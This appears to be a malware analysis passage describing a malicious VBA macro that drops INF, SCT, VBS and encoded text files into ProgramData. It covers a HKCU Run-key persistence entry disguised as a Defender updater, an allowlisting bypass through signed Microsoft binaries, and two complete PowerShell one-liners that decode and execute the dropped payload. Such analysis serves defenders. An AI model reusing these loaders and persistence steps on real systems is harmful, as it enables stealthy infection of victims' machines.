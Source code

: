 Malicious obfuscated VBA code is executed when the macro is first enabled. In some cases, the malicious macro is also executed when the user activates a fake text box.
The macro payload analysis, dropped files and registry keys
The macro payload, which is Base64 encoded, does the following:

Drops two or three files into the “ProgramData” folder. The dropped files are either in the root of the “ProgramData” folder or in a subdirectory. The file names may vary from one version of the malware to another.


\EventManager.dll
\EventManager.logs
\WindowsDefenderService.inil


Adds a registry entry in the current user’s RUN key (HKCU) for later execution when the user next logs in. In some cases, the macro spawns the malicious payload/process instantly without waiting for the next time the user logs in. The registry keys and executables may vary from one version of the malware to another.


Name:WindowsDefenderUpdater
Type:REG_EXPAND_SZ
Data:c:\windows\system32\rundll32.exe advpack.dll,LaunchINFSection C:\ProgramData\EventManager.logs,Defender,1,

The next time the user logs in, the dropped payload will be executed. The executables have been chosen specifically for bypassing allowlisting solutions since they are all from Microsoft and very likely allowlisted. Regardless of the file extensions, the files dropped by the macro are EITHER INF, SCT and text files OR VBS and text files.
Case 1: INF, SCT and text files dropped by the macro

INF is launched via the advpack.dll “LaunchINFSection” function.
INF registers the SCT file (scriptlet file) via scrobj.dll (Microsoft Scriptlet library).
Via WMI (winmgmt), the JavaScript or VBscript code in the SCT file spawns a PowerShell one-liner which finally consumes the text file.


powershell.exe -exec Bypass -c $s=(get-content C:\\ProgramData\\WindowsDefenderService.ini);$d = @();$v = 0;$c = 0;while($c -ne $s.length){$v=($v*52)+([Int32][char]$s[$c]-40);if((($c+1)%3) -eq 0){while($v -ne 0){$vv=$v%256;if($vv -gt 0){$d+=[char][Int32]$vv}$v=[Int32]($v/256)}}$c+=1;};[array]::Reverse($d);iex([String]::Join(”,$d));

PowerShell one-liner
Encoded text file
Execution flow:

Case 2: VBS and text files dropped by the macro
The VBS file decodes itself and calls mshta.exe, passing on one line of VBScript code to it, which in turn spawns a PowerShell one-liner which finally consumes the text file (usually Base64-encoded text).

powershell.exe -w 1 -exec Bypass -nologo -noprofile -c iex([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String((get-content C:\ProgramData\ZIPSDK\ProjectConfManagerNT.ini))));

PowerShell one-liner
Encoded text file
Execution flow:
